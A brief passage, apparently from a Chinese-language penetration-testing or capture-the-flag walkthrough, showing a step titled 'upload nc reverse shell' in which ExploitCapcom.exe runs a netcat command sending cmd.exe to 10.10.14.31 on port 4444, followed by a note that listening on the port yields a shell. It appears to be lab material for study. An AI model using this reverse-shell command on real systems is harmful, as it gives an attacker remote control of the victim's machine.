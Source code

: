 [![](assets/1701678304-edb86fd13848f87a92f50dc6ee66d54c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173850-445134fc-8f64-1.png)

## 上传 nc 反弹 shell

接着上传 nc。  
.\\ExploitCapcom.exe EXPLOIT "nc.exe 10.10.14.31 4444 -e cmd.exe"

[![](assets/1701678304-777ad96e4105ccd889ebb19585ca05ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173858-4997ccdc-8f64-1.png)

然后监听 4444 端口，成功反弹 shell
